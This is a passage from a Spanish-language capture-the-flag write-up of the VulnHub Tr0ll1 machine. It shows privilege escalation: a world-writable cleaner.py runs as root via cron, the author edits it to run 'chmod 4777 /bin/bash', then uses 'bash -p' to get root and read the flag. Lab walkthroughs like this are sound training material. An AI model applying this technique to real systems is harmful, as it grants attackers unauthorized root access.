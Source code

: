 El servidor cierra la conexión después de x tiempo, con lo cual hay que moverse rápido.

## Escalación de privilegios

---

Listando y buscando información dentro del sistema operativo, no encontramos mucha data relevante, con lo cual sospecho que debe haber alguna tarea `CRON`{: .filepath} ejecutándose cada x tiempo. Vamos a usar `pspy`.

![cron](/assets/img/commons/vulnhub/Tr0ll1/cron.png){: .normal }

Cada un minuto, se ejecuta con permiso de root el archivo `cleaner.py`. 

Validamos los permisos y tenemos control completo sobre el mismo, en este punto, sólo resta editarlo para añadir nuestro código y volvernos root.

```bash
overflow@troll:/$ ls -la /lib/log/cleaner.py
-rwxrwxrwx 1 root root 96 Aug 13  2014 /lib/log/cleaner.py
```

Lo editamos para que nos agregue el bit `SUID` a la `bash`{: .filepath}.

Original

```bash
overflow@troll:/$ cat /lib/log/cleaner.py
#!/usr/bin/env python
import os
import sys
try:
        os.system('rm -r /tmp/* ')
except:
        sys.exit()
```

Editado. Listamos la Flag.

```bash
#!/usr/bin/env python
import os
import sys
try:
        os.system('chmod 4777 /bin/bash')
        os.system('rm -r /tmp/* ')
except:
        sys.exit()

overflow@troll:/$ ls -la /bin/bash
-rwxr-xr-x 1 root root 986672 Apr 23  2014 /bin/bash

overflow@troll:/$ ls -la /bin/bash
-rwsrwxrwx 1 root root 986672 Apr 23  2014 /bin/bash

overflow@troll:/$ bash -p
bash-4.3# id
uid=1002(overflow) gid=1002(overflow) euid=0(root) groups=0(root),1002(overflow)
bash-4.3# cd /root
bash-4.3# ls
proof.txt
bash-4.3# cat proof.txt
Good job, you did it!
```